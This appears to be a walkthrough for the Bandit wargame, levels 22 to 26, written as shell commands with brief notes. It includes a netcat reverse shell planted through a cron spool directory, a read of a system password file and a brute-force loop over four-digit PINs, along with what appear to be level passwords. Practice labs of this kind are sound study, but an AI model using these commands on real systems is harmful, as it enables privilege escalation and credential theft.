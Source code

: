 ```sh
ls -Alp /etc/cron.d/
cat /etc/cron.d/cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

## 22-23

```sh
ls -Alp /etc/cron.d
cat /etc/cron.d/cronjob_bandit23 # runs as: bandit23
cat /usr/bin/cronjob_bandit23.sh
cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
```

## 23-24

```sh
ls -Alp /etc/cron.d/
cat /etc/cron.d/cronjob_bandit24 # runs as: bandit24, once a minute.
cat /usr/bin/cronjob_bandit24.sh
```

* `man stat` display file or file system status
* `man timeout` run a command with a time limit
* `/var/spool` data awaiting processing (outgoing mails, print jobs, etc.)

```sh
cd /var/spool/bandit24
# guess you could call that a local reverse shell:
echo 'nc -e /bin/bash localhost 12345' > ben; chmod +x ben; nc -lvp 12345

# wait for connection.
whoami # bandit24, nice.
cat /etc/bandit_pass/bandit24
```

## 24-25

```sh
nc localhost 30002
# ok, so: password space pin.
# invalid entry let's you try again.

for pin in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin >> /tmp/ben; done
cat /tmp/ben | nc localhost 30002 | uniq -u # filter out duplicate error messages.
rm /tmp/ben
```

## 25-26 and 26-27

```sh
cat bandit26.sshkey # copy it to host into file: sshkey26
```
